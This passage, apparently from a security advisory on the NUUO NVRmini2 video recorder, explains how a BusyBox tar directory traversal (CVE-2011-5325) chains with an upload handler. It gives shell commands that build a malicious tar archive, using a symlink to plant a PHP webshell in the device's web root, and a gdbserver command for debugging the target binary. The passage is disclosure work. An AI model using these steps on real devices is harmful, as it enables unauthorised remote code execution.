 OK this is nice... but we still need to get root. Time to look for a privilege escalation?

### #2: BusyBox `tar` Directory Traversal <a name="vuln2"></a>
* [CWE-35: Path Traversal](https://cwe.mitre.org/data/definitions/35.html)
* [CVE-2011-5325](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-5325)
* Risk Classification: High
* Attack Vector: Local
* Constraints: N/A
* Affected versions: every publicly released firmware version up to and including version 03.11.0000.0016

The NVRmini2 uses a very old `busybox` version, something that is common amongst IoT devices.
The latest firmware version 03.11.0000.0016 uses `BusyBox v1.16.1 (2013-11-12 15:35:46 CST) multi-call binary`.

This version is affected by many vulnerabilities, one of them being [CVE-2011-5325](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-5325), a directory traversal when unpacking `tar` archives. For more details please check this [commit message](https://git.busybox.net/busybox/commit/?id=a116552869db5e7793ae10968eb3c962c69b3d8c). The following section also explains how to create a malicious tar.

How can we combine these two vulnerabilities?

## Exploit Chain
By now an astute reader will remember that the user import function located at offset `0x2B990` in the `cgi_system` binary has to perform a series of steps, including untar'ing the file provided in the HTTP POST, after it is decrypted.

Let's abuse this mechanism. First we create our malicious `tar` file with our webshell `shelly.php`:

```bash
echo haha > owned
tar cfv sploit.tar owned
ln -s /NUUO/web/ nuuo
tar --append -f sploit.tar nuuo
rm nuuo
mkdir nuuo
cp shelly.php nuuo/
tar --append -f sploit.tar nuuo/shelly.php
gzip sploit.tar
```
> Snippet #1: Creating a malicious tar file

However, if you recall from previous sections, we have to encrypt this file (it is first decrypted before it is untar'ed), and I was too lazy to reverse the encryption. The last step (`gzip`) is necessary because the handler expects a zipped file.

This is easily solvable by following the previously described steps to obtain a root shell on the target. We then start `gdbserver` (which is helpfully included in the target) with:

`gdbserver :3333 /NUUO/bin/cgi_system exportuser 'bfile=stuff'`

We connect our remote debugger and set a breakpoint at offset `0x2AF5C`:
```c
fd_w = fopen(cfg_file, "r");
```
